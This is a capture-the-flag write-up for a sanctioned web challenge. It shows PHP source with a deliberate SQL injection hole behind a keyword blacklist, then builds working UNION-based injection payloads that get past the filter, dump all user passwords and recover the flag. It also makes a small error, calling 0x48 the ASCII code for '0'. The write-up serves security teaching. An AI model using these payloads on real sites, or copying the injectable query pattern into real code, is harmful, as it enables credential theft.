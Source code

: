 # Intigriti Challenge 0923 by Sgrum0x

**Challenge category**: Web<br>
**Challenge description**: "Find the flag on https://challenge-0923.intigriti.io and win Intigriti swag. This is a guest challenge created by @sgrum0x"<br>
**Challenge date**: 25th of September to the 3rd of October, 11:59 PM CET.<br>

## Context

This challenge is about SQL Injection.

## Exploring the challenge
This is the initial page:

![Schermata_Iniziale](https://github.com/H31s3n-b3rg/Private/assets/66698256/fb560c43-66fc-4861-89d7-5481bf8d2545)

By clicking on the source button, the PHP source code will be shown.

```php
<?php

if (isset($_GET['showsource'])) {
    highlight_file(__FILE__);
    exit();
}

require_once("config.php");

$dsn = "mysql:host=$host;dbname=$db;charset=$charset";
$options = [
    PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    PDO::ATTR_EMULATE_PREPARES   => false,
];

try {
    $pdo = new PDO($dsn, $user, $pass, $options);
} catch (PDOException $e) {
    exit("Unable to connect to DB");
}

$max = 10;

if (isset($_GET['max']) && !is_array($_GET['max']) && $_GET['max']>0) {
    $max = $_GET['max'];
    $words  = ["'",""",";","`"," ","a","b","h","k","p","v","x","or","if","case","in","between","join","json","set","=","|","&","%","+","-","<",">","#","/","r","n","t","v","f"]; // list of characters to check
    foreach ($words as $w) {
        if (preg_match("#".preg_quote($w)."#i", $max)) {
            exit("H4ckerzzzz");
        } //no weird chars
    }       
}

try{
//seen in production
$stmt = $pdo->prepare("SELECT id, name, email FROM users WHERE id<=$max");
$stmt->execute();
$results = $stmt->fetchAll();
}
catch(PDOException $e){
    exit("ERROR: BROKEN QUERY");
}
    /* FYI
    CREATE TABLE users (
        id INT AUTO_INCREMENT PRIMARY KEY,
        name VARCHAR(255) NOT NULL,
        email VARCHAR(255) UNIQUE NOT NULL,
        password VARCHAR(255) NOT NULL
    );
    */
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Utenti</title>
    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css" rel="stylesheet">
</head>
<div class="container mt-5">

    <h2>Users</h2>

    <table class="table table-bordered">
        <thead>
            <tr>
                <th>ID</th>
                <th>Name</th>
                <th>Email</th>
            </tr>
        </thead>
        <tbody>
            <?php foreach ($results as $row): ?>
                <tr>
                    <td><?= htmlspecialchars(strpos($row['id'],"INTIGRITI")===false?$row['id']:"REDACTED"); ?></td> 
                    <td><?= htmlspecialchars(strpos($row['name'],"INTIGRITI")===false?$row['name']:"REDACTED"); ?></td>
                    <td><?= htmlspecialchars(strpos($row['email'],"INTIGRITI")===false?$row['email']:"REDACTED"); ?></td>
                </tr>
            <?php endforeach; ?>
        </tbody>
    </table>

    <div class="text-center mt-4">
        <!-- Show Source Button -->
        <a href="?showsource=1" class="btn btn-primary">Show Source</a>
    </div>

</div>

<!-- including Bootstrap e jQuery -->
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
<script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.5.2/js/bootstrap.min.js"></script>

</body>
</html>
```
This PHP page takes the GET <code>max</code> parameter, validates it against a blacklist of dangerous characters and substrings, and unsafely concatenates it into a string that will eventually be executed as a query on a MySQL database.
Two things:
+ <code>max</code> must start with an ASCII character that has an hex code greater than <code>0x48</code> (<code>0</code> in ASCII) (check line 25 in the code above). First character must be a number.
+ If flag is retrived from the database within one of the shown columns (id, name or email) it will be hidden by the <code>REDACTED</code> string (because flag format is INTIGRITI{.*}) (check lines 76-77-78 in the code above).</br>

Let's try to solve the challenge.

## Exploiting the challenge
A lot of important characters are blocked. The most important is the whitespace. [Here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#white-spaces-alternatives "Here") I found an alternative: using parentheses. <code>SELECT 1 FROM Table_Name</code> is the same as <code>SELECT(1)FROM(TABLE_NAME)</code>. Since asterisk char (\*) is not blocked, an initial payload can be the following: <code>1*(1)UNION(SELECT(1),(2),(3))</code>.

![first_injection](https://github.com/H31s3n-b3rg/Private/assets/66698256/de920b0d-4057-4a44-afa6-1f6250425651)


Our injection worked! Now we have to find where the flag is. Accessing INFORMATION_SCHEMA database is almost impossible due to the blacklist. Let's try to check *Password* column. "Password" is not usable, because "p","a" and "or" are blocked. How can a column be accessed without using its name? [This write-up](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/ "This write-up") has the answer! <code>SELECT F.*n* FROM (SELECT 1, 2, 3, ..., *m* UNION SELECT * FROM table_name)F;</code> will allow us to access the nth column of *table_name* without using its name (*m* is equal to the number of columns of *table_name*). *n* is equal 4 in our case, since *Password* is the fourth column of the table. So:</br>
<code>SELECT F.4 FROM (SELECT 1, 2, 3, 4 UNION SELECT * FROM table_name)F;</code></br>
that is:</br>
<code>SELECT(F.4)FROM(SELECT(1),(2),(3),(4)UNION(SELECT\*FROM(users)))F</code></br>
Thus, our payload will be:</br>
<code>1*(1)UNION(SELECT(F.2),(F.3),(F.4)FROM(SELECT(1),(2),(3),(4)UNION(SELECT*FROM(users)))F)</code>

![Passwords_leaked](https://github.com/H31s3n-b3rg/Private/assets/66698256/a3fde13e-80d3-49cb-b06a-2fcea588c1dd)

All passwords are leaked! As expected, the Sgrum0x's password is the flag (since all fields containing the substring "INTIGRITI" are hidden by the string "REDACTED"). To get the flag, we have to retrieve its value without the substring "INTIGRITI". A possible way to do so is to retrieve all passwords without their first char ("I" in the case of Sgrum0x's password). Flag will now contain "NTIGRITI" substring, which avoids the flag being hidden. This could have been done with the SUBSTRING() function, but its name contains a blocked char ("b"). An alternative is the MID() function, which is very similar to SUBSTRING(), but its name doesn't contain any blocked char. So our final payload is:</br>
<code>1*(1)UNION(SELECT(F.2),(MID((F.4),1,1)),(MID((F.4),2,37))FROM(SELECT(1),(2),(3),(4)UNION(SELECT*FROM(users)))F)</code></br>
The flag is split between two columns, but since the first char of the flag is obvious, we could have avoided this splitting and just get the flag from the second character onwards.

![Flag](https://github.com/H31s3n-b3rg/Private/assets/66698256/b2fd5b4f-9049-43b4-a86b-4e0ed3eca34a)

Here's the flag!</br>
Flag is <code>INTIGRITI{bl4ckli5t1ng_1z_n0t_7h3_w4y}</code>.
